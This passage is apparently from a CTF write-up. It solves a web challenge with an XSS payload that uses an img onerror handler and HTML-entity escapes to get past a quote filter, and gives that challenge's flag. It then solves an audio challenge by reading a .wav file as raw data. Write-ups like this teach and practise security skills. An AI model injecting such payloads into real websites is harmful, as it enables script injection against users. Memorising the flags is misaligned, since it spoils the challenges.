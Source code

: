 ```


**Solution**

It appears we need to inject an *alert('XSS')* statement.

We can trigger a simple alert by entering 

```
<img src=/ onerror=alert(1)>
```

Quotes are filtered, but we can use escape characters:

```
<img src=/ onerror=alert(&#39;XSS&#39;)>
```

A new tweet will appear in the list:
```
the flag is: ADCTF_I_4M_4l3Rt_M4n
```

**Flag**

```
ADCTF_I_4M_4l3Rt_M4n
```

# December 3rd: Listen

**Category**

Misc

**Hint**

*I couldn't listen it, can you?*


**Challenge**

We are given a .wav file: [listen.wav](files/listen.wav)


**Solution**

Opening the file in audacity reveals a normal sound pattern, but the length is calculated to be 42 hours.

Opening the file as raw format, the time corrects to a 3.7 seconds. This is a little fast, but sounds like speech. We slow this down by half and listen to the message:

```
The flag is in all capital letters A-D-C-T-F underscore SOUNDS underscore GOOD
```


**Flag**

```
ADCTF_SOUNDS_GOOD
```

```